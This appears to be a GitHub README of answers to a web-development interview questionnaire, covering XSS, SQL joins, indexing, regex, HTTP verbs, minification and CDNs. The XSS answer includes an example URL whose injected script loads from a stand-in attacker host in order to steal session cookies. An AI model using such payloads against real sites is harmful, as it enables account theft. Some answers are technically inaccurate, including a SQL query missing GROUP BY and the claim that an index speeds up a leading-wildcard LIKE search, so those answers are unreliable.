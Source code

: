 ##Question 1: What is Cross-site scripting and how can it be protected against?

Cross Site Scripting (XSS) is a client side security flaw that enables an attacker to inject client side scripts into a webpage, in hope of stealing someone else's user account (or anything useful really). This happens when the input in a form field or search box is not encoded or validated after submission. For example, when a user enters a search query such as

`http://someDomain.com?search=<script type="text/javascript">Alert("Yo I'm about to steal some stuff from you"</script>`
into a search field and a webpage accepts the user input and the codes run it. This is deadly because when a user visits a webpage and enter his or her user credential, a cookie is usually stored on the browser. An attacker can pretend to be a friend and send an email to ask you to visit the page which assumes to be save, such as

`http://someDomain.com?search=<script src="http://stealingYourStuff.com/attackerScript.js">Alert("Yo I'm about to steal some stuff from you"</script>`

and the end user opens this link, the script will run and send the user credential stored in the browser's cookie to the attacker's server. `This basically triggers an XSS attack`. Now, the attacker can use the user's cookie and put it in his or her browser and pretend to be that user.

There are a number of ways to prevent this from happening:

1. When the user include a script as an input, the server should redirect to a page that tells the user that the request is invalid (instead of triggering the script).
2. If multiple logins from two different locations are found, the server should invalidated the cookie session.
3. One of the best is to not click on any unknown emails.
4. Perhaps ensure proper escaping or sanitation of the user search input or any form field.



##Question 2: Database Query
To get the desire table, we can make two inner joins for providers, payment_types, and provider_payment_types, where the provider_id and payment_type_id in provider_payment_types correspond to the provider_id in providers table and payment_type_id in payment_types table (respectively).

`SELECT payment_types.name, count(provider_payment_types.payment_type_id) as count
FROM payment_types
INNER JOIN provider_payment_types on provider_payment_types.payment_type_id=payment_types.id
INNER JOIN providers on provider_payment_types.provider_id=providers.id
ORDER BY count DESC;`


##Question 3: Large Data Sets

`SELECT * FROM providers WHERE name LIKE '%care home%';`

If the providers table has 200,000 entries, what could we do to improve the speed of this search?

We can provide the `index` in name. Indexing a database is similar to indexing a textbook where each phrase corresponds to a page. It works the same way in a database. When we create a table with some columns, we can index it to help us retrieve the data faster, in this case, name.

##Question 4: Regular Expressions

The result of `"(855) 277-6736".replace(/[^0-9]/g, '');` is `8552776736`

The `[^0-9]` means that we find any digit (or in this case, characters) that is NOT within the brackets. In this case, `(`, `)`, empty space, `-` are not between 0-9, so we replace all the non-number characters with an empty string.

The `g` is just telling us that the search within `[^0-9]` is global, which means it will continue searching after the first one.

An alternative to using `[^0-9]` in Javascript is `\D` which is to search for non-digit characters.

Although, `(855) 277-6736` is just a phone number that is easy to read and follows the convention, but the computer does not understand the non-digit characters when we attempt to dial the number (for example).


##Question 5: HTTP Requests
An HTTP request happens when your browser tries to fetch certain webpage (GET verb). It will tell the server that it is visiting this page and request the proper assets (images, CSS, Javascript, etc) in order to load the page. The server will return the required assets so the browser can then load the pages. There are four primary HTTP verbs that are commonly used in a restful services:

1. GET: This is to retrieve a webpage or data.
2. POST: This verb is being used to create data and then send it to the server. This is commonly used in a form field.
3. PUT (UPDATE): This is similar to the POST verb but it is used to update data. For example, when a user updates his or her information on an account, the PUT method is used. Although POST can also be used, but it will not be restful.
4. DELETE: This verb is being used to delete a data. For example, one can delete a user data from the database with this method.

##Question 6: Performance

First, I think we have a lot of Javascript and CSS codes that are not minified. We can greatly improve page loading when all codes have been minified which is the removal of all the unneeded white space, new lines, comments, etc. The extra lines, white spaces, comments, etc do take up memory and when millions of users are requesting the same assets, it does add up.

Second, it does not look like the CSS/JS files are bundled together. After minification, the CSS files can be bundled into one master file (likewise for JS files). When this happens, the HTML page only needs to make fewer requests to get the Javascript and CSS assets.

##Question 7: CDNs

CDN, which is short for content delivery network, is a way to deliver assets such as javascripts, CSS, images, etc. to users based on where they live (this means multiple servers are used to deliver the contents based on location). One advantage of CDNs is that certain contents are cached in a user's browser and can be reused later in time when the user visits the webpage again. The user does not need to make the same requests to the server to obtain the necessary assets to load the webpage (which in turns increase the page load). Caching is commonly used for a popular library like jQuery.

Even though the versioning of the jQuery library is specified in the url `https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.2/jquery.js`, we can also take advange of caching and use version query `?version=2.2.2` or `?ver=2.2.2` to specified the specific version when multiple jquery.js is uploaded to the CDN. This eliminates `2.2.2` subdirectory. However, this method should be used with care as it can be confusing to reference the version number when multiple copies have the same file name.

For a page that loads many static assets, we want to load the assets from different domains or CDNs in order to speed up the page load. If a single CDN is down, a second one that is a backup can be used. This prevents any downtime.

